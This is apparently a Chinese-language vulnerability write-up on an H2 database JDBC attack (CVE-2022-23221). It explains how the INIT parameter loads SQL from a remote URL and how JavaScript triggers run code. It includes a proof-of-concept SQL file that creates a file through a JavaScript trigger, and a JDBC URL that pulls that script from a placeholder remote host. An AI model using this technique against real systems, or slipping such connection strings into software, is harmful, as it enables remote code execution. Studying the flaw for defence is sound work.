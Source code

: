 # H2 JDBC Attack
## 漏洞原理
参考CVE-2022-23221
### Execute SQL on Connection
主要在于h2支持在连接时执行SQL语句,而SQL语句支持从远程地址的sql中获取的.    
http://www.h2database.com/html/features.html?highlight=init&search=init#execute_sql_on_connection    
![](2023-07-24-18-21-51.png)   
比如`String url = "jdbc:h2:mem:test;INIT=runscript from '~/create.sql'\\;runscript from 'http://x.x.x.x:/init.sql'";`
可以看到对文件名是调用的`FileUtils.newInputStream(file);`进行处理.  
![](2023-07-24-18-45-37.png)  
而最后如果不是从classPath开头地址的话就会使用URL连接打开.  
![](2023-07-24-18-47-42.png)
### javascript on TRIGGER
而在H2的语法中,支持创建TRIGGER触发器,其中支持javascript和ruby语法,这就导致可以通过sql语句执行任意代码.  
![](2023-07-24-18-55-24.png)
## 漏洞复现
恶意sql文件内容示例,该sql语句将在`E:\tmep\`下创建文件poctest。
```sql
CREATE TABLE test (
     id INT NOT NULL
 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
var fos = Java.type("java.io.FileOutputStream");
var b = new fos ("E:\\temp\\poctest");';

INSERT INTO TEST VALUES (1);
```
JDBC URL:

`jdbc:h2:mem:1337;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM ' http://x.x.x.x:8081/poc.sql';'\`